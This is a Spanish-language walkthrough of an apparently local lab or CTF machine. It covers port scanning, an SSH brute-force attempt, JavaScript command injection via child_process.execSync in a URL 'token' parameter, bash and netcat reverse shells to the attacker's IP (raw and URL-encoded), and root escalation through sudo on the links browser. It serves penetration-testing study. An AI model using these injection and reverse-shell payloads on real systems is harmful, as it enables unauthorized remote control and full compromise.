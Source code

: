 ## Reconocimiento
Comenzamos con el respectivo reconocimiento usando `nmap`.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.104 -oG scan
```
![](_anexos_/Screenshot%20from%202023-12-13%2005-05-06.png)
- La versión de ssh en la 9.2p1, bastante actualizada, no hay mucho que hacer por ahi
- Tenemos el puerto 80 disponible, pero en realidad solo hay una pagina manual de apache
- En el puerto 5000 podemos ver lo que parece una app de nodejs, verificamos en el navegador

![](_anexos_/Screenshot%20from%202023-12-13%2005-08-22.png)
Si ingresamos cualquier texto en el campo de `name` nos devuelve una url con el siguiente formato (e.j. con el usuario pepe)
``` html
http://192.168.0.104:5000/?name=pepe&token=55569675
```
- Si modificamos el token en la url con más numeros, la pagina aún carga con 'normalidad'
- Si modificamos agregando un string nos salta un error relacionado con javascript

![](_anexos_/Screenshot%20from%202023-12-13%2005-20-13.png)

Acá podemos deducir:
- Un usuario `aleister`
- El directorio donde corre esta app se encuentra en `/home/aleister/website`

### SSH Force Brute
En este punto al tener un usuario podría resultar interesante ejecutar `hydra` para un ataque de fuerza bruta a través de ssh
``` bash
hydra -l aleister -P /usr/share/dict/rockyou.txt ssh://192.168.0.104 
## SPOILER: no funciona
```
### Javascript Command Injection
En este punto, podemos probar si la url es vulnerable a algun tipo de _command injection_ en el payload.
- El campo user es equivalente al texto que le agregamos en la cajita de nombre y en realidad no ejecuta ningun comando por detras. 
- El campo token ha respondido a la inyección de nuestro codigo javascript que ejecuta en la shell un timer de 5 segundos.
	
```javascript
require('child_process').execSync('sleep 5');
```

Para evitar problemas con los espaciados y saltos de linea en la url le mandamos la instrucción en formato `url-encoded`
``` html
http://192.168.0.104:5000/name=pepe&token=require%28%27child_process%27%29.execSync%28%27sleep%205%27%29%3B
```
Comprobado esto, procedemos a mandar una reverse shell para que nos pueda otorgar una consola desde la que podemos operar. 
- Primeramente nos ponemos en escucha con `ncat` por el puerto 4444.
	``` bash
	ncat -lvp 4444
	```
- Ejecutamos el ya conocido reverse shell por el protocolo TCP a través de bash
	``` bash
	bash -i >& /dev/tcp/192.168.0.107/4444 0>&1 # IP maquina atacante
	```
	La url quedaria de esta forma (con el url-encoded)
	``` html
	http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.107%2F4444%200%26%3E1%27%29%3B
	```

##### LECTURA OPCIONAL: POSIX y los problemas con la sintaxis stderr/stdout estandar

Ver: [POSIX y los problemas con stdout - stdeer](../../Pentest%20Concepts/POSIX%20y%20los%20problemas%20con%20stdout%20-%20stdeer.md)

#### Reverse shell con netcat
Entonces como tenemos ese problema con sh, podemos buscar otras formas de hacer la `reverse shell`, por ejemplo con `ncat`.
``` bash
nc -e /bin/sh 192.168.0.107 4444
```
Con la url _url-encodeada_, quedaria:
``` html
http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27nc%20-e%20%2Fbin%2Fsh%20192.168.0.107%204444%27%29%3B
```
Ejecutamos y... Bingo!

## Escalada de privilegios (Privesec)
### Tratamiento de la tty
Lo primero que vamos a resolver es la cuestión de la tty. Ejecutamos los siguientes comandos en el ncat que estaba en escucha por el 4444.

Ver: [Linux Full TTY (Interective shell)](../../Pentest%20Concepts/Linux%20Full%20TTY%20(Interective%20shell).md)
### Reconocimiento de la maquina victima
Si ejecutamos `sudo -l` podemos ver que tenemos la app ubicada en `/usr/bin/links` que podemos ejecutar como `root` sin necesidad de presentar una contraseña. Probamos, en realidad no parece salir nada, pero si presionamos `Esc` podemos ver un panel de opciones.

![](_anexos_/Screenshot%20from%202023-12-14%2000-54-27.png)
### Ascenso a root
Si buscamos las opciones entre los paneles, podemos ver que en el apartado _File_ existe una opción llamada _OS shell_.

![](_anexos_/Screenshot%20from%202023-12-14%2000-57-01.png)
Si ejecutamos esa opción como tal, nos devolvera una shell como el usuario root. Eso es todo.
##### OPCIONAL: Posibilidad de ascender a root a través de una reverse shell desde una pagina en el navegador (?)
La idea de este punto es poder ejecutar alguna pequeña pagina en la cual le puedas inyectar codigo que se ejecute como `client-side` (nosotros desde el navegador somos el cliente) que probablemente se termine ejecutando como root. Solo es una idea igual y no se si es posible, si bien investigando encontre que hay muchos problemas a la hora de ejecutar comandos en el lado del cliente (lo cual tiene sentido por razones de seguridad).

